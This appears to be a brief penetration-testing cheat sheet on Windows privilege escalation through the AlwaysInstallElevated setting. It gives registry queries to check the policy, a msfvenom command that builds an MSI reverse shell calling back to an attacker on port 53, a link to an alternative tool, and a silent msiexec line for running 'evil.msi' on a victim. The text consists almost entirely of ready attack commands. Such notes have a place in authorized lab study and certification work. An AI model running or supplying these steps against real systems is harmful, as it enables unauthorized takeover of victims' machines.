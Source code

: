 ## AlwaysInstallElevated

- check from either winpeas or manual regkey enum
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Msf's msi payload may not work
```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f msi -o reverse.msi 
```
Use this instead
https://github.com/KINGSABRI/MSI-AlwaysInstallElevated



Execution on victim
```
msiexec.exe /quiet /qn /i evil.msi
```